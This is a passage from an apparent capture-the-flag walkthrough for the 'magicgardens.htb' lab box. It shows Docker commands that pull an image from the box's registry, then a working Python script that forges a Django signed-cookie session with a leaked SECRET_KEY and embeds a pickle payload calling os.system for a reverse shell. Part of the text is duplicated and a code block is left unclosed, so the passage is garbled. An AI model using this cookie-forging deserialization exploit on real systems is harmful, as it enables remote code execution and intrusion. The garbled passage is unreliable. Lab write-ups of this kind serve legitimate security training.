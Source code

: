 ```bash
    sudo docker pull BOX_IP:5000/magicgardens.htb:1.3
    ```

5. Once the image is pulled, you can run it using:

    ```bash
    sudo docker run -it BOX_IP:5000/magicgardens.htb:1.3 /bin/bash
    ```

This will start a bash session inside the Docker container, allowing you to explore and exploit the environment further.
## Step 4: Exploiting Django for Remote Code Execution (RCE)

With access to the Docker container, you can exploit a vulnerability in the Django application running on the box to achieve remote code execution (RCE). The Django application uses a secret key for cryptographic signing, which can be leveraged to create a malicious session cookie that executes arbitrary commands on the server.

### Generating a Malicious Cookie

The following Python script demonstrates how to generate a malicious session cookie:

```python
import os
import django
from django.conf import settings
import django.core.signing
import pickle

# Configure Django settings with the discovered SECRET_KEY
settings.configure(
    SECRET_KEY='55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b',
)

django.setup()

# Define the salt and a serializer to use with signing
salt = "django.contrib.sessions.backends.signed_cookies"

class PickleSerializer:
    def dumps(self, obj):
        return pickle.dumps(obj, pickle.HIGHEST_PROTOCOL)

    def loads(self, data):
        return pickle.loads(data)

# Create a command that executes a reverse shell
class Command:
    def __reduce__(self):
        return (os.system, ('your reverse shell command',))

# Generate the malicious cookie
cookie = django.core.signing.dumps(
    Command(), key=settings.SECRET_KEY, salt=salt, serializer=PickleSerializer
)
print(cookie)
## Step 4: Exploiting Django for Remote Code Execution (RCE)

With access to the Docker container, you can exploit a vulnerability in the Django application running on the box to achieve remote code execution (RCE). The Django application uses a secret key for cryptographic signing, which can be leveraged to create a malicious session cookie that executes arbitrary commands on the server.

```